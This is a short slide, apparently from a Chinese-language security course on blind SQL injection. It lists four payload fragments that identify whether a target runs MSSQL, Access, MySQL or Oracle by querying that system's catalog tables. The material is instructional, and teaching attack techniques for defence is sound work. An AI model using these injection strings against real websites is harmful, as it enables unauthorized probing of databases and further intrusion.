

SQL注入漏洞-盲注
1）判断数据库类型
MSSQL：and (select count(*) from sysobjects)>0 and 1=1
ACCESE：and (select count(*) from msysobjects)>0 and 1=1
MySQL：and (select count(*) from information_schema.TABLES)>0 and 1=1
Oracle：and (select count(*) from sys.user_tables)>0 and 1=1